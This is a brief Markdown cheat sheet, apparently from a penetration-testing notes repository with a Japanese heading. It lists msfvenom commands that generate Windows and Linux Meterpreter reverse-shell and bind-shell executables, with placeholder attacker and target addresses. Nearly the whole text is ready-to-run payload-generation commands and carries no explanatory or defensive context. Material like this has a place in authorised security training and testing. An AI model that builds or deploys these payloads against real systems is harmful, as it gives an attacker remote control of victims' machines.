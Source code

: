 # msfvenom

## リスティング

``` shell
    msfvenom -l payloads #Payloads
    msfvenom -l encoders #Encoders
```

## Windows

* ReverseShell

``` shell
    msfvenom -p windows/meterpreter/reverse_tcp LHOST=<kali IP> LPORT=<kali Port> -f exe > reverse.exe
```

* BindShell

``` shell
   msfvenom -p windows/meterpreter/bind_tcp RHOST=<target IP> LPORT=<kali Port> -f exe > bind.exe 
```

## Linux

* ReverseShell

``` shell
    msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=<kali IP> LPORT=<kali Port> -f elf > reverse.elf

    msfvenom -p linux/x64/shell_reverse_tcp LHOST=<kali IP> LPORT=<kali Port> -f elf > shell.elf
```

* Bind Shell

``` shell
    msfvenom -p linux/x86/meterpreter/bind_tcp RHOST=<target IP> LPORT=<kali Port> -f elf > bind.elf
```
